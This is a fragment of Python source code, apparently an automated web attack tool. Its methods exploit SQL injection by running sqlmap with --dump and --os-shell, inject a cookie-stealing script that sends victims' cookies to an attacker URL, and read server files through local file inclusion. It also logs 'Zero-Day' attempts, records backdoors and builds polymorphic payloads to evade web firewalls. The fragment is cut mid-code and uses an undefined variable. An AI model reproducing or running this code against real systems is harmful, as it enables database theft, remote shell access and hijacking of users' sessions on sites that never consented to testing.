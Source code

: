                 response_size = len(response.text)
        except:
            pass
        self.log_attack(url, "Zero-Day", success, payload, http_code, response_size, waf_detected)
        return success == 1

    def exploit_sql_injection(self, vuln):
        url = vuln["url"]
        print(f"[*] Exploiting SQL Injection on {url}...")
        success = False
        try:
            result = subprocess.run(
                ["sqlmap", "-u", url, "--batch", "--dump", "--random-agent", "--os-shell"],
                capture_output=True,
                text=True,
                timeout=600
            )
            if "dumped to" in result.stdout:
                print(f"[!] SQL Injection exploited! Output:\n{result.stdout}")
                self.backdoors.append({"type": "SQLi", "url": url})
                success = True
            else:
                print("[!] SQL Injection exploitation failed.")
        except Exception as e:
            print(f"[!] Error exploiting SQLi: {e}")
        self.update_rl_model("exploit", success)

    def exploit_xss(self, vuln):
        url = vuln["url"]
        payload = vuln["payload"]
        print(f"[*] Exploiting XSS on {url} with payload: {payload}")
        success = False
        try:
            cookie_payload = f"<script>document.location='{self.attacker_url}/steal?data='+encodeURIComponent(document.cookie);</script>"
            polymorphic_payload = self.generate_polymorphic_payload(cookie_payload)
            test_url = f"{url}?q={polymorphic_payload}" if "?" in url else f"{url}?test={polymorphic_payload}"
            self.session.get(test_url, timeout=10)
            time.sleep(2)
            if stolen_data:
                print(f"[!] XSS exploited! Stolen data: {stolen_data[-1]}")
                success = True
        except Exception as e:
            print(f"[!] Error exploiting XSS: {e}")
        self.update_rl_model("exploit", success)

    def exploit_lfi(self, vuln):
        url = vuln["url"]
        payload = vuln["payload"]
        print(f"[*] Exploiting LFI on {url} with payload: {payload}")
        success = False
        try:
            response = self.session.get(f"{url}?file={payload}", timeout=10)
            print(f"[!] LFI exploited! File content:\n{response.text[:500]}...")
            success = True
        except Exception as e:
            print(f"[!] Error exploiting LFI: {e}")
        self.update_rl_model("exploit", success)
